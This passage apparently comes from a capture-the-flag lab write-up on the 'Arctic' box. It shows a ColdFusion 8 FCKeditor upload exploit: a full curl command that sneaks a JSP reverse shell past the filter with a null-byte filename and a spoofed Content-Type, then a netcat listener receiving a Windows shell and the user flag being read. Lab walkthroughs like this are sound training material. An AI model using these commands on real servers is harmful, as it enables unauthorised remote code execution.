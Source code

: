 There’s two things I need to set to get this upload to work, and both are set in the MSF exploit. First, I can’t have the filename end in `jsp`. That will be filtered out. The MSF script uses `.txt`, so I’ll mimic that by making a copy of my payload named `shell.txt`. The MSF script also sets the `Content-Type` on the file to `application/x-java-archive`.

I’ll update the `curl`. I can adjust headers inside the form data by adding it inside the `-F` argument separated by `;`:

```

# curl -X POST -F "newfile=@shell.jsp;type=application/x-java-archive;filename=shell.txt" 'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00'

```

Now visiting `/userfiles/file/` shows the uploaded shell:

![image-20200513095953434](https://0xdfimages.gitlab.io/img/image-20200513095953434.png)

#### Execute Shell

I can visit that url with `curl`:

```

root@kali# curl 'http://10.10.10.11:8500/userfiles/file/df.jsp'

```

And in another window (about 30 seconds later) I get a shell:

```

root@kali# rlwrap nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.11.
Ncat: Connection from 10.10.10.11:50028.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
arctic\tolis

```

From there I can grab `user.txt`:

```

C:\Users\tolis\Desktop>type user.txt
02650d3a************************

```
